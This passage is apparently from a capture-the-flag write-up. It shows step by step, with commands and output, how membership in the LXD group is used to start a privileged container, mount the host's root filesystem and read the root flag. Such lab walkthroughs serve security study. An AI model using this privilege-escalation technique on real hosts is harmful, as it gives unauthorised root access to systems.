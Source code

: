 Create a storage pool and assign storage location.

```
-bash-5.0$ /snap/bin/lxc storage create pool dir
Storage pool pool created
```

```
-bash-5.0$ /snap/bin/lxc profile device add default root disk path=/ pool=pool
Device root added to default
-bash-5.0$ /snap/bin/lxc storage list
+------+-------------+--------+---------------------------------------------+---------+
| NAME | DESCRIPTION | DRIVER |                   SOURCE                    | USED BY |
+------+-------------+--------+---------------------------------------------+---------+
| pool |             | dir    | /var/snap/lxd/common/lxd/storage-pools/pool | 1       |
+------+-------------+--------+---------------------------------------------+---------+
```

Initiate the instance using the name “trenchesofit” or the alias specified during the image import.

```
-bash-5.0$ /snap/bin/lxc init trenchesofit ignite -c security.privileged=true
Creating ignite
                                          
The instance you are starting doesn't have any network attached to it.
  To create a new network, use: lxc network create
  To attach a network to an instance, use: lxc network attach
```

Mount the host file system and start the instance.

```
-bash-5.0$ /snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
Device trenches added to ignite
```

`-bash-5.0$ /snap/bin/lxc start ignite`

Now execute bash on the container. You will see we are now root on the container.

```
-bash-5.0$ /snap/bin/lxc exec ignite /bin/sh
~ # 
~ # id
uid=0(root) gid=0(root)
```

We initially mounted the host file system in the /mnt/root of the container.

```
/mnt/root # ls
bin         dev         lib         libx32      mnt         root        snap        sys         var
boot        etc         lib32       lost+found  opt         run         srv         tmp
cdrom       home        lib64       media       proc        sbin        swap.img    usr
```

Now we have permissions to navigate to /mnt/root/root and view the flag.txt

```
/ # cd /mnt/root/root
/mnt/root/root # ls
fix-wordpress  flag.txt       snap
/mnt/root/root # cat flag.txt
d73b****SNIP****4538
```
